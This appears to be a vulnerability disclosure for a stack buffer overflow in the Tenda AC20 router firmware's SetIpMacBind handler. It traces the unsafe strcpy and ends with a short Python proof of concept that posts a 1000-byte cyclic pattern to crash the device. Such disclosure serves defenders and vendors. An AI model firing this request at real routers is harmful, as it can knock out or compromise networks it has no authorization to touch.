 # Stack-Based Buffer Overflow in Tenda AC20 (firmware V16.03.08.12) fromSetIpMacBind

## Summary

A stack-based buffer overflow vulnerability in the Tenda AC20 router (firmware V16.03.08.12) allows unauthenticated remote attackers to execute arbitrary code or cause denial of service (DoS) via the `list` parameter in the `/goform/SetIpMacBind` endpoint. The flaw resides in the `sub_48E628` function, which processes the `list` input using the unsafe `strcpy` function without bounds checking, leading to stack memory corruption.

## Details



*   **Vendor**: Tenda

*   **Product**: Tenda AC20

*   **Firmware Version**: V16.03.08.12

*   **Firmware Download**: [https://www.tenda.com.cn/material/show/3264](https://www.tenda.com.cn/material/show/3264)

*   **Component**: `/goform/SetIpMacBind`

*   **Vulnerability Type**: Stack-Based Buffer Overflow (CWE-121)

*   **CVE ID**: Pending

*   **Reported by**: n0ps1ed (n0ps1edzz@gmail.com)

## Description

The vulnerability exists in the processing chain of the `list` parameter in the `fromSetIpMacBind` function and its dependent `sub_48E628` function. The call chain and key operations are as follows:



1.  **Parameter Retrieval**: The `list` parameter is retrieved via `websGetVar` in `fromSetIpMacBind` and passed to `sub_48E628` for IP-MAC binding rule processing. The `bindnum` parameter specifies the number of binding rules to process.

2.  **Rule Parsing**: `sub_48E628` is called iteratively to process each rule in `list`. It splits the input by the delimiter (ASCII 10, line feed) using `strchr`, treating each segment as an individual IP-MAC binding rule.

3.  **Unsafe Copy**: For each split rule segment, the critical unsafe operation occurs:

*   `strcpy(v4, (char *)*a2)`: Copies the user-controlled rule segment (`*a2`, derived from `list`) into `v4`, a fixed-size 128-byte stack buffer.

*   `strcpy` does not validate the length of the input against the size of `v4`. If the rule segment exceeds 127 bytes (plus the null terminator), it will overflow the `v4` buffer.

1.  **Subsequent Parsing**: After the unsafe copy, `sscanf` is used to parse fields from `v4` (e.g., device name, MAC address, IP address). However, the prior `strcpy` already introduces the overflow risk, as the buffer may have already been corrupted before parsing.

If the user-controlled `list` parameter contains a rule segment longer than 127 bytes, `strcpy(v4, (char *)*a2)` will overflow the 128-byte `v4` buffer, overwriting adjacent stack memory (including return addresses, saved registers, and other critical stack data). This allows an attacker to corrupt the stack and potentially execute arbitrary code.
![PoC 2 Result: Root Directory Listing](./imgs/0.png)
![PoC 2 Result: Root Directory Listing](./imgs/1.png)
## PoC: Python Exploit Script



```
from pwn import *
import requests
url = "http://192.168.xxx.xxx/goform/SetIpMacBind"
cookie = {"Cookie":"password=rfl1qw"}
data = {"bindnum": "1","list": cyclic(1000)}
res = requests.post(url, cookies=cookie, data=data)
res = requests.post(url, cookies=cookie, data=data)
print(res.text)
```
![PoC 2 Result: Root Directory Listing](./imgs/3.png)

This script sends a crafted `list` parameter containing an overly long IP-MAC binding rule segment. When processed by `sub_48E628`, the `strcpy(v4, (char *)*a2)` call will overflow the `v4` buffer, causing stack corruption. Successful exploitation may result in arbitrary code execution or a denial of service condition (router crash/reboot).
